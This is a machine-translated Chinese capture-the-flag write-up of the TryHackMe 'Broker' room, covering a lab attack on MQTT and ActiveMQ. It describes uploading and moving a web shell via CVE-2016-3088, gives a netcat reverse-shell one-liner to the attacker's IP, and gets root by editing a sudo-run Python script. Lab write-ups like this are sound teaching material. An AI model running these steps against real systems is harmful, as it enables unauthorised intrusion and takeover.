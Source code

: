 # TryHackMe |经纪人报道

> 原文：<https://infosecwriteups.com/tryhackme-broker-writeup-fb75b30cf674?source=collection_archive---------0----------------------->

![](img/ddea535623486aa86dee2e866b469b3b.png)

# **概述**

嘿，你们好吗？我带着另一篇报道回来了，这次是尝试由 [M0N573R777](https://tryhackme.com/p/M0N573R777) 和 [ripcurlz](https://tryhackme.com/p/ripcurlz) 的[经纪人](https://tryhackme.com/room/broker)。这是一个非常有趣的盒子，也是一个非常独特的盒子，展示了物联网设备中非常微小的安全性。该机器首先扫描较高的端口，以获得在这些端口上运行的服务。其中一个端口托管一个 MQTT 代理，使用它我们可以找到一个主题进行订阅。然后，我们找到一个 CVE，稍微修改一下，在机器上得到命令注入，并得到一个反向外壳返回。最后，我们使用一个错误配置的脚本来获得根用户访问权限。那么，没有别的话要说了，我们开始吧。

# **等待，然后继续！**

在你继续这个房间之前，有一些事情你必须知道和理解。

*什么是 MQTT？*

MQ 遥测传输协议(MQTT)是一种主要由温度计等工业物联网设备使用的协议。虽然，有些例外确实存在，比如智能家居自动化系统。

*MQTT 为什么存在？*

每个人(至少，每个阅读这篇文章的人)都知道互联网是基于 TCP/IP 模型的。但是，TCP/IP 模型的主要问题是，它并没有被优化为适用于不稳定的低带宽网络。此外，使用受限制的设备(如传感器)时，数据处理能力已经非常低，TCP/IP 网络堆栈很快成为一个问题。这就是 MQTT 的用武之地，它位于 TCP/IP 协议之上，并使用发布/订阅消息传递协议，该协议是专门针对不稳定、不可靠的低带宽连接而设计的，由于它使用 TCP 进行传输，因此它具有持续的会话感知能力。

*什么是发布/订阅消息协议？*

与 TCP/IP 使用的传统客户机-服务器模型(客户机直接与端点(另一个客户机或服务器)通信)不同，MQTT 客户机分为两组:发送者(在 MQTT 中称为发布者)和接收数据的消费者(MQTT 订户)。发布者和订阅者对彼此一无所知，事实上，他们从来没有直接联系过。第三个组件(MQTT 代理)充当“中间人”，将消息从发布者引导到充当订阅者的任何端点。(哎呀)

![](img/d075e6d4d0c4c92857c5ea2d63facbaa.png)

演职员表:[https://behrtech.com/blog/mqtt-in-the-iot-architecture/](https://behrtech.com/blog/mqtt-in-the-iot-architecture/)

如果你想更多地了解 MQTT 是什么，以及它是如何工作的，请访问 http://www.steves-internet-guide.com/mqtt-basics-course/。

好吧！，说完就走了。

# **我们闯进去吧！**

和往常一样，从 NMap 扫描开始

```
sudo nmap -sS -sC -sV -oA nmap/broker -vv *THM Box IP*
```

![](img/e035a8e130bbde6ac1357b6a1752dedb.png)

NMap 显示两个端口是开放的 1883(MQTT)，8161(ActiveMQ)。

端口 8161 托管一个由 Apache 软件基金会 ActiveMQ 开发的消息代理。点击“管理 ActiveMQ 代理”会弹出一个对话框，要求提供凭证。尝试一些默认密码，让我们以管理员身份登录。

![](img/afc6d12b0ce5442734c1e9be907cf000.png)

下一个任务需要使用 MQTT 客户机来访问通过的信息。要访问它，需要一些东西。首先，一个 MQTT 客户机连接到 MQTT 服务，然后是一个“主题”，我们将*作为订阅者*，接收由*发布者*发送的数据。

让我们检查一下代理的主题列表，因为我们没有任何主题。在访问代理的“主题”部分时，会出现多个主题，“secret_chat”是其中之一。有意思。

![](img/5cd428a133caa4d74f5fb319fdad7f27.png)

要订阅该主题，首先安装您选择的 MQTT 客户机。由 Eclipse 基金会开发的 Eclipse Mosquitto 有一个名为 mosquitto_sub 的工具，可以让你成为它的订阅者。

现在，要订阅该主题，请使用以下命令

```
mosquitto_sub -t 'secret_chat/#' -h *THM Box IP* -p 1883 -V mqttv31 --tls-version tlsv1.2
```

![](img/e686d08b7ab05124241ae027ef42cc97.png)

> 这里，-t:要订阅的主题，#:是一个通配符，允许您订阅多个级别的主题，-h:主机名或 ip 地址，-p:MQTT 服务的端口号，-V:MQTT 服务的版本，- tls-version:它是服务使用的 tls 版本

**p . s .**MQTT 中的主题存储为目录，这就是为什么存在“#”和“+”通配符。

看起来，两个人正在使用代理作为聊天服务。看他们的聊天记录，他们似乎在讨论一个游戏。这是一种有趣的使用服务的方式，虽然不太安全。

现在，为了获得机器访问权，我们需要为 ActiveMQ 开发一个 CVE。搜索 [exploit-db](https://www.exploit-db.com/) ，发现一个漏洞。但是，它并不像宣传的那样有效，需要做一些改变。

![](img/a28ab0ee17a02282c775d72d3163aa17.png)![](img/af1a0be456776e43604f07fe7a685bdc.png)

使用 PUT HTTP 谓词，并将有效负载发送到存储在文件服务器目录中。这个漏洞没有起作用，因为我们的 web-shell 没有在文件服务器目录中执行的权限。下一个合乎逻辑的事情是将它移动到一个可以移动的目录中。接下来的问题是，在哪里？

![](img/56d5c6224c602973e0cc3a2648bed70c.png)

在搜索漏洞的可用解决方案时，我看到了由 [Knownsec 404](https://medium.com/@knownsec404team/analysis-of-apache-activemq-remote-code-execution-vulnerability-cve-2016-3088-575f80924f30) 团队撰写的这篇伟大的文章，这篇文章更深入地解释了漏洞，为什么它不起作用，以及如何使它起作用。

Knownsec 404 团队似乎将它移到了一个名为“Apache-ActiveMQ-*some version number*”的目录中。下一个障碍是计算代理的版本号。NMap 没有给我们提供，所以我们需要手动搜索。使用 GoBuster，让我们尝试找到一些端点。

![](img/2a08b942ba7f5d81ca889406323978de.png)

在发出请求时，记得放入“Authorization”头，否则应用程序将只响应 401(未授权)代码。我们有许多结果，在访问第一个目录时，我们找到了版本号，完整的路径反映在网页上。

![](img/e27be65f23d2b205536eb4cc5bbb5fe7.png)

关注 activemq.home

现在，我们可以绝对肯定这是我们应该移动外壳的路径，以便执行它。让我们利用 MOVE 方法，并指定目标路径(在 activemq.home/webapps/admin 中)，来移动我们的 web-shell。

![](img/aa74ae6c792ab542775d0248a56f370d.png)

然后，去“*THM box IP*/admin/cmd.jsp？cmd= "并向 cmd 变量传递您希望在机器上执行的任何值。

![](img/0233b4e5c0f06b8ef293a1977ce11a27.png)

我们得到了命令执行，这意味着我们可以得到我们机器的反向外壳。使用普通的 bash reverse shell one liner，我无法得到一个反向 shell，可能是一些坏字符，打乱了命令，所以我使用 NetCat reverse shell oneliner。

```
nc -e /bin/bash *Your tun0 IP* *port you’re listening on*
```

记住用“+”符号或使用“%20”对空格进行编码，否则该命令将不起作用。

![](img/f4142ae34159a1f013b18efb22b47087.png)

升级反向外壳

反向外壳是作为机器上的用户接收的。运行 sudo -l 时，用户 activemq 可以作为根用户运行一个 python 脚本，该脚本归 activemq 所有。这意味着，改变文件的内容，并执行它，将得到根外壳。用以下命令更改脚本的内容

```
import os
os.system(“/bin/bash”)
```

![](img/a4028149d197a94742ecb85539f47eb2.png)

这就是装箱子的人。希望你们喜欢

如果你有任何建议，请在评论中告诉我。

祝你有美好的一天！